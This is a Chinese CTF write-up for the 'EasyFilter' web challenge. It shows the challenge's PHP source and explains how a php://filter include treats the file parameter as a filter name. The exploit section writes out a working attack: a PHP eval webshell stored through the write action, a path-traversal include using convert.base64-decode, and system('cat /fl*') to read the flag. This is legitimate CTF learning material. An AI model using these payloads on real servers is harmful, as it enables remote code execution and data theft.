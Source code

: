 # EasyFilter



```php
<?php
    ini_set("open_basedir","./");
    if(!isset($_GET['action'])){
        highlight_file(__FILE__);
        die();
    }
    if($_GET['action'] == 'w'){
        @mkdir("./files/");
        $content = $_GET['c'];
        $file = bin2hex(random_bytes(5));
        file_put_contents("./files/".$file,base64_encode($content));
        echo "./files/".$file;
    }elseif($_GET['action'] == 'r'){
        $r = $_GET['r'];
        $file = "./files/".$r;
        include("php://filter/resource=$file");
    }
    
```

在最后一行代码那里正常包含文件`?action=r&r=d0165506bd`，发现有这些warning：

![image-20211023195300238](D:\this_is_feng\github\CTF\Web\writeup\第四届强网”拟态防御国际精英挑战赛 Web.assets\image-20211023195300238.png)

发现这么一行很奇妙的warning：

```
Warning: include(): unable to locate filter "d0165506bd" in /var/www/html/index.php on line 16
```

传过去的不是文件名吗，怎么被当成过滤器了？？？

但是能成功包含出内容，所以这是又被当成过滤器又被当成文件了？那尝试路径穿越写马：

```
http://124.70.181.14:32766/?action=w&c=<?php eval($_POST[0]);?>



http://124.70.181.14:32766/?action=r&r=convert.base64-decode/../d0165506bd

0=system('cat /fl*');
```

成功getshell。